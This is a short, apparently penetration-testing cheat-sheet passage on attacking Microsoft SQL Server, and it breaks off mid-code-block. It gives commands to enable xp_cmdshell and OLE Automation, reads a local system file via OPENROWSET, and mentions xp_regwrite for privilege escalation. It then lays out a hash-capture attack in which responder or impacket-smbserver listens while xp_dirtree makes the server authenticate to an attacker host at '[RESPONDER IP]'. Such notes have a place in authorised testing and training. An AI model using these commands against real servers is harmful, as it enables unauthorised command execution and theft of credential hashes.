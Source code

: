 ```bash
enable_xp_cmdshell
# Enable from Windows:
EXECUTE sp_configure 'show advanced options', 1
RECONFIGURE
EXECUTE sp_configure 'xp_cmdshell', 1
RECONFIGURE
```

### Exploit

- **Write**

  To write files, [Ole Automation Procedures](https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/ole-automation-procedures-server-configuration-option) must be enabled:

  ```bash
  # Enable Ole to write files
  sp_configure 'show advanced options', 1
  RECONFIGURE
  sp_configure 'Ole Automation Procedures', 1
  RECONFIGURE
  ```

  - [extended stored procedures](https://docs.microsoft.com/en-us/sql/relational-databases/extended-stored-procedures-programming/adding-an-extended-stored-procedure-to-sql-server), 

  - [CLR Assemblies](https://docs.microsoft.com/en-us/dotnet/framework/data/adonet/sql/introduction-to-sql-server-clr-integration), 
  - [SQL Server Agent Jobs](https://docs.microsoft.com/en-us/sql/ssms/agent/schedule-a-job?view=sql-server-ver15),
  -  [external scripts](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-execute-external-script-transact-sql). 

- **Read Local files**

  ```bash
  SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
  ```

- The `xp_regwrite` command is used to elevate privileges by creating new entries in the Windows registry.

- **Capture Hashes**

  1. Start `responder` or `impacket-smbserver`

     ```bash
     sudo responder -I tun0
     ```

     ```bash
     sudo impacket-smbserver share ./ -smb2support
     ```

  2. Hash stealing

     ```bash
     EXEC master..xp_dirtree '\\[RESPONDER IP]\share\'
     